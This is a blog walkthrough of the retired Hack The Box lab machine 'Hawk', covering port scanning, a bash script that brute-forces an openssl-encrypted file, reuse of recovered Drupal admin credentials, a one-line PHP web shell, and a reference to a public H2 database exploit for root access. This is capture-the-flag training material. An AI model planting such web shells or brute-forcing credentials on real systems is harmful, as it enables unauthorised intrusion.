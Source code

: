 ```yaml
---
layout: post
title: "Hawk: Hack The Box Walkthrough"
subtitle: "When I bestride him, I soar; I am a hawk."
date: 2018-12-02 08:34:55 +0000
last_modified_at: 2018-12-02 08:43:56 +0000
category: Walkthrough
tags: ["Hack The Box", Hawk, retired]
comments: true
image:
  feature: hawk-htb-walkthrough.jpg
  credit: Prawny / Pixabay
  creditlink: https://pixabay.com/en/vintage-japanese-watercolour-1829844/
---
```


This post documents the complete walkthrough of Hawk, a retired vulnerable [VM][1] created by [mrh4sh][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

Hawk is a retired vulnerable VM from Hack The Box.

### Information Gathering

```
# nmap -T5 -n -v -Pn -p- -A --reason -oN nmap.txt 10.10.10.102
...
PORT     STATE SERVICE       REASON         VERSION
21/tcp   open  ftp           syn-ack ttl 63 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Jun 16 22:21 messages
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.13.108
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh           syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e4:0c:cb:c5:a5:91:78:ea:54:96:af:4d:03:e4:fc:88 (RSA)
|   256 95:cb:f8:c7:35:5e:af:a9:44:8b:17:59:4d:db:5a:df (ECDSA)
|_  256 4a:0b:2e:f7:1d:99:bc:c7:d3:0b:91:53:b9:3b:e2:79 (ED25519)
80/tcp   open  http          syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
5435/tcp open  tcpwrapped    syn-ack ttl 63
8082/tcp open  http          syn-ack ttl 63 H2 database http console
|_http-favicon: Unknown favicon MD5: 8EAA69F8468C7E0D3DFEF67D5944FF4D
| http-methods:
|_  Supported Methods: GET POST
|_http-title: H2 Console
9092/tcp open  XmlIpcRegSvc? syn-ack ttl 63
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9092-TCP:V=7.70%I=7%D=11/28%Time=5BFF2AED%P=x86_64-pc-linux-gnu%r(N
SF:ULL,45E,"\0\0\0\0\0\0\0\x05\x009\x000\x001\x001\x007\0\0\0F\0R\0e\0m\0o
SF:\0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\0t\0o\0\x20\0t\0h\0
SF:i\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n\0o\0t\0\x20\0a\0l\
SF:0l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0A\0l\0l\0o\0w\0O\0t
SF:\0h\0e\0r\0s\xff\xff\xff\xff\0\x01`\x05\0\0\x01\xd8\0o\0r\0g\0\.\0h\x00
SF:2\0\.\0j\0d\0b\0c\0\.\0J\0d\0b\0c\0S\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0
SF::\0\x20\0R\0e\0m\0o\0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\
SF:0t\0o\0\x20\0t\0h\0i\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n
SF:\0o\0t\0\x20\0a\0l\0l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0
SF:A\0l\0l\0o\0w\0O\0t\0h\0e\0r\0s\0\x20\0\[\x009\x000\x001\x001\x007\0-\x
SF:001\x009\x006\0\]\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s
SF:\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0J\0d\0b
SF:\0c\0S\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\
SF:0o\0n\0\.\0j\0a\0v\0a\0:\x003\x004\x005\0\)\0\n\0\t\0a\0t\0\x20\0o\0r\0
SF:g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0
SF:o\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\
SF:0:\x001\x007\x009\0\)\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0
SF:e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\
SF:0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x001\x005\x005\0\)\
SF:0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0
SF:D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\0x\0c\0e\0p\0
SF:t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x001\x004\x004\0\)\0\n\0\t\0a\0t\0\x20\0o
SF:\0r");
```

Going the `ftp` route reveals a `messages` directory that contains a hidden file `.drupal.txt.enc`. The file is encrypted by `openssl enc` as characterized by `Salted__` header.

<a class="image-popup">
![0b315a7f.png](/assets/images/posts/hawk-htb-walkthrough/0b315a7f.png)
</a>

### Decryption of AES-256-CBC

I'm guessing the password or passphrase to decrypt the file must be simple. As such, I wrote the following script to automate the decryption of the file by going through a wordlist.

<div class="filename"><span>decrypt.sh</span></div>

```bash
#!/bin/bash

CIPHERS=$1
FILE=$2
PASS=$3

for c in $(cat $CIPHERS); do
  openssl enc $c -d -a -salt -in $FILE -pass pass:"$PASS" &>/dev/null
  if [ $? -eq 0 ]; then
    d="$(openssl enc $c -d -a -salt -in $FILE -pass pass:$PASS 2>/dev/null)"
    echo "[+] Trying $c with '$PASS'..."
    printf "%s\n\n" "$d"
  fi
done
```

Since I don't know the cipher used, the script runs through all the available ciphers in `openssl enc`. Let's run the script.

```
# parallel -j4 ./decrypt.sh ciphers.txt .drupal.txt.enc "{}" < /usr/share/seclist/Passwords/darkweb-top1000.txt | tee decrypted.txt
```

<a class="image-popup">
![083d4843.png](/assets/images/posts/hawk-htb-walkthrough/083d4843.png)
</a>

### Drupal 7.58

This version is not affected by Drupalgeddon2. The credentials to the administrative interface is (`admin:PencilKeyboardScanner123`)

In order to write PHP code as pages in Drupal 7, the PHP Filter module needs to be enabled. Once you have done that, create a PHP page containing the following code:

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

Simple as it looks, the code allows us to execute remote commands as `www-data`. Well, now we can run a reverse shell back to us.

I have a preference for Perl reverse shell because Perl is, more often than not, available in Linux.

### H2 1.4.196 Remote Code Execution

During enumeration of the `www-data` account, I notice the H2 database is ran as `root`. Simply run the proof-of-concept code from EDB-ID [45506](https://www.exploit-db.com/exploits/45506) to get a `root` shell.

[1]: https://www.hackthebox.eu/home/machines/profile/146
[2]: https://www.hackthebox.eu/home/users/profile/2570
[3]: https://www.hackthebox.eu/
